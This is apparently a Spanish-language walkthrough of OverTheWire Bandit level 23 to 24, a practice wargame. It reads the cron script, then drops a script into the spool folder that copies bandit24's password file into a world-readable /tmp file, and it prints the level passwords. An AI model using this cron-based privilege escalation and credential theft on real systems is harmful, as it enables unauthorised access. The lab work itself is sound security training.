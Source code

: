 # Bandit Level 23 → Level 24

## Objetivo
A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…
## Datos de acceso
usuario: **bandit23**
Servidor **bandit.labs.overthewire.org**
Puerto de acceso **2220**
Contraseña:  ==**QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G **==
Contraseña obtenida en el [[Nivel 22 - 23]].

## Solución
Se analiza el script almacenado en la carpeta de cron,
``` bash
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24                                @reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null                         * * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null                       bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh                                /bin/bash                                                                                                                                                           myname=$(whoami)                                                                                                                                                      cd /var/spool/$myname/foo                                                          echo "Executing and deleting all scripts in /var/spool/$myname/foo:"               for i in * .*;                                                                     do                                                                                     if [ "$i" != "." -a "$i" != ".." ];                                                then                                                                                   echo "Handling $i"                                                                 owner="$(stat --format "%U" ./$i)"                                                 if [ "${owner}" = "bandit23" ]; then                                                   timeout -s 9 60 ./$i                                                           fi                                                                                 rm -f ./$i                                                                     fi                                                                             done                                                                                                                                                                  bandit23@bandit:~$       
```
Se debe crear un script que se ejecute con el script mostado arriba.
``` bash

bandit23@bandit:/tmp/ilvartoxd$ echo "cat /etc/bandit_pass/bandit24 > /tmp/ilvartoxd/password"                                                                        cat /etc/bandit_pass/bandit24 > /tmp/ilvartoxd/password                            bandit23@bandit:/tmp/ilvartoxd$ echo "cat /etc/bandit_pass/bandit24 > /tmp/ilvartoxd/password" > ilvarto.sh                                                           bandit23@bandit:/tmp/ilvartoxd$ cat ilvarto.sh                                     cat /etc/bandit_pass/bandit24 > /tmp/ilvartoxd/password                            bandit23@bandit:/tmp/ilvartoxd$ chmod 777 ilvarto.sh                               bandit23@bandit:/tmp/ilvartoxd$ touch password                                     bandit23@bandit:/tmp/ilvartoxd$ chmod 666 password                                 bandit23@bandit:/tmp/ilvartoxd$ ls -la                                             total 192                                                                          drwxrwxr-x    2 bandit23 bandit23   4096 Sep  6 13:32 .                            drwxrwx-wt 4821 root     root     184320 Sep  6 13:31 ..                           -rwxrwxrwx    1 bandit23 bandit23     56 Sep  6 13:31 ilvarto.sh                   -rw-rw-rw-    1 bandit23 bandit23      0 Sep  6 13:32 password
```
Se crea el script para obtener contraseña, en una carpeta temporal.
``` bash
bandit23@bandit:/tmp/ilvartoxd$ cp ilvarto.sh /var/spool/bandit24/foo              bandit23@bandit:/tmp/ilvartoxd$ date
Tue Sep  6 01:35:01 PM UTC 2022
bandit23@bandit:/tmp/ilvartoxd$ date                                               Tue Sep  6 01:36:05 PM UTC 2022 
bandit23@bandit:/tmp/ilvartoxd$ cat password                                       VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
```
Contraseña ==**VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar **==

## Notas adicionales

## Referencias

